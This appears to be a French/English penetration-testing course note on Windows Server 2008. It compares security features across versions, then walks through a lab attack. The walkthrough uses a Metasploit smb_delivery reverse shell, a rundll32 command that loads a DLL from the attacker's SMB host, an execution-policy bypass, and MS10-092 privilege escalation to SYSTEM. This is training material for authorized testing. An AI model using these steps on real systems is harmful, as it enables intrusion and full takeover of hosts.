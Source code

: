 # Windows Server

***

Windows Server 2008 / 2008 R2 ont été déclarés en fin de vie le 14 janvier 2020. Au fil des années, Microsoft a intégré des fonctionnalités de sécurité renforcées dans les versions suivantes de Windows Server. Il est peu fréquent de croiser des systèmes Server 2008 lors de tests d’intrusion externes, mais je les rencontre souvent lors d’évaluations internes.

***

### <mark style="color:$danger;">Server 2008 vs. Newer Versions</mark>

The table below shows some notable differences between Server 2008 and the latest Windows Server versions.

<table data-full-width="true"><thead><tr><th>Feature</th><th>Server 2008 R2</th><th>Server 2012 R2</th><th>Server 2016</th><th>Server 2019</th></tr></thead><tbody><tr><td><a href="https://docs.microsoft.com/en-us/mem/configmgr/protect/deploy-use/defender-advanced-threat-protection">Enhanced Windows Defender Advanced Threat Protection (ATP)</a></td><td></td><td></td><td></td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/jea/overview?view=powershell-7.1">Just Enough Administration</a></td><td>Partial</td><td>Partial</td><td>X</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/identity-protection/credential-guard/credential-guard">Credential Guard</a></td><td></td><td></td><td>X</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/identity-protection/remote-credential-guard">Remote Credential Guard</a></td><td></td><td></td><td>X</td><td>X</td></tr><tr><td><a href="https://techcommunity.microsoft.com/t5/iis-support-blog/windows-10-device-guard-and-credential-guard-demystified/ba-p/376419">Device Guard (code integrity)</a></td><td></td><td></td><td>X</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/applocker/applocker-overview">AppLocker</a></td><td>Partial</td><td>X</td><td>X</td><td>X</td></tr><tr><td><a href="https://www.microsoft.com/en-us/windows/comprehensive-security">Windows Defender</a></td><td>Partial</td><td>Partial</td><td>X</td><td>X</td></tr><tr><td><a href="https://docs.microsoft.com/en-us/windows/win32/secbp/control-flow-guard">Control Flow Guard</a></td><td></td><td></td><td>X</td><td>X</td></tr></tbody></table>

{% hint style="warning" %}
**Features**

* **Enhanced Windows Defender ATP** : Protection avancée contre les menaces (analyse comportementale, détection post-exploitation, réponse automatisée).
* **Just Enough Administration (JEA)** : Permet un accès minimal aux fonctions d'administration, limitant les privilèges.
* **Credential Guard** : Protège les informations d'identification contre le vol (isolation avec la virtualisation).
* **Remote Credential Guard** : Permet d'utiliser les identifiants d’un utilisateur sur un serveur distant sans les transmettre complètement.
* **Device Guard** : Garantit que seuls les binaires approuvés s’exécutent (protection d’intégrité du code).
* **AppLocker** : Contrôle quelles applications peuvent être lancées sur un poste.
* **Windows Defender** : Antivirus et antimalware intégré à Windows.
* **Control Flow Guard (CFG)** : Mécanisme de protection contre l’exécution de code malveillant par détournement de flux.
{% endhint %}

***

### <mark style="color:red;">Server 2008 Case Study</mark>

#### 🔍 1. **Fréquence de rencontre**

* Les **systèmes legacy** (Windows / Linux) sont encore courants en audit interne.
* Parfois oubliés, parfois **critiques et non remplaçables** (ex. logiciels médicaux).

#### 🧠 2. **Importance de comprendre le contexte métier**

* Toujours **discuter avec le client** : comprendre pourquoi ces systèmes sont encore là.
* Une **recommandation générique ("retirer le système") n'est pas toujours adaptée**.
* Exemples : logiciels d’IRM sur XP/Server 2003, contraintes budgétaires, etc.

#### 🛡️ 3. **Mesures compensatoires possibles**

* Segmentation réseau stricte 🔒
* Support étendu personnalisé 🛠️
* Accès restreint, surveillance renforcée 🔍

#### 🚨 4. **Impact réglementaire**

* Dans certains environnements soumis à audit, un seul système legacy peut :
  * Faire **échouer un audit**
  * **Retarder ou faire perdre** des financements publics

#### 🧰 5. **Outils pour analyser un Windows Server 2008**

* **Sherlock** : identifie les failles locales connues (LPE).
* **Windows-Exploit-Suggester** :
  * Analyse la sortie `systeminfo`
  * Compare avec les vulnérabilités connues Microsoft
  * Propose des exploits Metasploit si applicables
* ⚠️ Utilisation manuelle parfois nécessaire si les outils ne peuvent être exécutés sur la cible.

<mark style="color:green;">**Querying Current Patch Level**</mark>

```cmd-session
C:\htb> wmic qfe
```

A quick Google search of the last installed hotfix shows us that this system is very far out of date.

<mark style="color:green;">**Running Sherlock**</mark>

```powershell-session
PS C:\htb> Set-ExecutionPolicy bypass -Scope process


PS C:\htb> Import-Module .\Sherlock.ps1
PS C:\htb> Find-AllVulns
```

<mark style="color:green;">**Obtaining a Meterpreter Shell**</mark>

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search smb_delivery

msf6 exploit(windows/smb/smb_delivery) > use 0

msf6 exploit(windows/smb/smb_delivery) > show options 


msf6 exploit(windows/smb/smb_delivery) > show targets


msf6 exploit(windows/smb/smb_delivery) > set target 0

msf6 exploit(windows/smb/smb_delivery) > exploit 

```

<mark style="color:green;">**Rundll Command on Target Host**</mark>

```cmd-session
rundll32.exe \\10.10.14.3\lEUZam\test.dll,0
```

<mark style="color:green;">**Receiving Reverse Shell**</mark>

```shell-session
msf6 exploit(windows/smb/smb_delivery) > [*] Sending stage (175174 bytes) to 10.129.43.15
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.129.43.15:49609) at 2021-05-12 15:55:05 -0400
```

<mark style="color:green;">**Searching for Local Privilege Escalation Exploit**</mark>

From here, let's search for the [MS10\_092 Windows Task Scheduler '.XML' Privilege Escalation](https://www.exploit-db.com/exploits/19930) module.

```shell-session
msf6 exploit(windows/smb/smb_delivery) > search 2010-3338
```

<mark style="color:green;">**Migrating to a 64-bit Process**</mark>

Before using the module in question, we need to hop into our Meterpreter shell and migrate to a 64-bit process, or the exploit will not work. We could have also chosen an x64 Meterpeter payload during the `smb_delivery` step.

```shell-session
msf6 post(multi/recon/local_exploit_suggester) > sessions -i 1

[*] Starting interaction with 1...

meterpreter > getpid

Current pid: 2268


meterpreter > ps

meterpreter > migrate 2796

meterpreter > background

[*] Backgrounding session 1...
```

<mark style="color:green;">**Setting Privilege Escalation Module Options**</mark>

Once this is set, we can now set up the privilege escalation module by specifying our current Meterpreter session, setting our tun0 IP for the LHOST, and a call-back port of our choosing.

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > set SESSION 1

SESSION => 1


msf6 exploit(windows/local/ms10_092_schelevator) > set lhost 10.10.14.3

lhost => 10.10.14.3


msf6 exploit(windows/local/ms10_092_schelevator) > set lport 4443

lport => 4443


msf6 exploit(windows/local/ms10_092_schelevator) > show options
```

<mark style="color:green;">**Receiving Elevated Reverse Shell**</mark>

If all goes to plan, once we type `exploit`, we will receive a new Meterpreter shell as the `NT AUTHORITY\SYSTEM` account and can move on to perform any necessary post-exploitation.

```shell-session
msf6 exploit(windows/local/ms10_092_schelevator) > exploit
```

***
